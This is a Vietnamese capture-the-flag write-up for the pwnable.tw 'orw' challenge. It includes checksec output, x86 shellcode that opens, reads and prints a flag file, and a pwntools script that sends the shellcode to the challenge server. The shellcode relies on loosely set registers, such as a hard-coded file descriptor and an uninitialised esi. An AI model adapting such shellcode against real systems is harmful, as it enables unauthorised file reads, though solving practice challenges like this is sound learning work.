


# pwnable.tw - Orw

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Chỉ có `canary` enable

Tiếp đến đưa file vào ida-32bit



Ở đâu yêu cầu đầu vào là 1 chuỗi shellcode và chương trình thực thi shellcode đó

# 2. Ý tưởng

Ở bài này yêu cầu đầu vào là shellcode và chương trình thực thi nó

Nhưng ở đây chỉ được sử dụng các syscall `open` `read` `write` được phép thực thi:


Thêm cả địa chỉ flag file được cho

-> Viết shellcode đọc và ghi file flag.

# 3. Khai thác

- Shellcode:

```
section .text 
	global _start
	
_start: 
	push esp
	push 0x00006761
	push 0x6c662f77
	push 0x726f2f65
	push 0x6d6f682f             ;push '/home/orw/flag' to stack
    
	mov eax, 0x5				;sys_open
	mov ebx, esp				;push esp to ebx
	int 0x80
    
	mov eax, 0x3				;sys_read
	mov ebx, eax
    mov ecx, esi
	mov edx, 0x100
	int 0x80
    
	mov eax, 0x4				;sys_write
    mov ebx, 0x1
	int 0x80
```

Ở shellcode này đơn giản là đưa chuỗi `/home/orw/flag` vào stack rồi đọc và in ra thôi.

# Cat_flag




# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("orw")
libc = elf.libc

local = False 
if local:
    p = process("./orw")
    gdb.attach(p,'''
        b *main*58
        c
    ''')
else:
    p = remote('chall.pwnable.tw', 10001)

elf = context.binary = ELF('./orw', checksec=False)

shellcode = asm(
    '''
    push esp
	push 0x00006761
	push 0x6c662f77
	push 0x726f2f65
	push 0x6d6f682f
    
	mov ebx, esp
	mov eax, 0x5				#sys_open
	int 0x80
    
	mov eax, 0x3				#sys_read
	mov ebx, eax
    mov ecx, esi
	mov edx, 0x100
	int 0x80
    
	mov eax, 0x4				#sys_write
    mov ebx, 0x1
	int 0x80
    '''
) 

payload = flat(
    shellcode
    )
p.sendafter(b"shellcode:",payload)
p.interactive()
```


